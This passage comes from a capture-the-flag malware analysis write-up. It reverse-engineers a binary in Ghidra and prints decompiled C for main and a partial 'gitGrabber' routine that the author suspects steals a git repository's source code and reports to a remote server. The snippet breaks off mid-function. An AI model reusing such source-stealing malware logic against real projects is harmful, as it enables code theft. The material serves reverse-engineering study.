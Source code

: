 From this I can guess that something is being done witht the github repo and my suspision that the malware reaches out to a remote server is suppupported. From the previous challenge discription we know that this company has had problems with their source code being stolen before and all of these clues point to that.

At this point, I moved into more advanced static analisis of the binary using Gidrah because that seemed fiting due to the fact this is an NSA challenge. However tools like IDA, radare2, or binary ninja all would have worked as well. 

As always, when analizing a program let's start at main if we know where that is. It's a pretty short setup so I can included it all here:

```C
int main(int argc,char **argv)

{
  int iVar1;
  char *pcVar2;
  
  gitGrabber();
  pcVar2 = tgexpgbgxulli(0xe);
  *argv = pcVar2;
  iVar1 = execvp(*argv,argv);
  return iVar1;
}
```

We see that this main function calls a function called gitGrabber, then get's some arguments from tgexpgbgxulli that then calls some other program using execvp. This gives us 2 directions to work in. We can either explore the  tgexpgbgxulli function or the gitGrabber. While I did originally look at tgexpgbgxulli, when working on this progect it is hard to understand without looking at gitGrabber. (I'll also note that gitGrabber is human readable which may be a nudge by the compition creators that we should look there first. A nudge I missed at first, but see now with hindsight.)

Opening gitGraber we see a more substantial function:
```C
void gitGrabber(void)

{
  long lVar1;
  bool bVar2;
  int __fd;
  int iVar3;
  char *pcVar4;
  char *ip_00;
  size_t length;
  long in_FS_OFFSET;
  int successful;
  int lockfd;
  int rv;
  char *output;
  char *ip;
  char *lockfile;
  string tmp;
  basic_string local_1c8 [32];
  stringstream ss;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  bVar2 = false;
  std::__cxx11::basic_stringstream<char,std::char_traits<char>,std::allocator<char>>::
  basic_stringstream();
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string();
                    /* try { // try from 0010a283 to 0010a3e5 has its CatchHandler @ 0010a416 */
  git_libgit2_init();
  __fd = qyvqmmhtjmlie();
  if (((__fd != -1) && (iVar3 = ndldgaiugwdhv(), iVar3 == 0)) &&
```